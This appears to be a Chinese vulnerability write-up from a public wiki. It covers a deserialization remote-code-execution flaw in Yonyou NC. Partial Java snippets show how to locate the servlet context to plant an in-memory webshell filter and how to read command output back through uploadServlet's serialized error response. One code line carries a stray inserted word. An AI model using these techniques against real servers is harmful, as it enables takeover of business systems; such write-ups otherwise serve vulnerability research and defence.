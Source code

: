 # 用友 NC 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

> [!NOTE]
>
> 用友 NC

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![](http://wikioss.peiqi.tech/vuln/yongyou-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![](http://wikioss.peiqi.tech/vuln/yongyou-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w


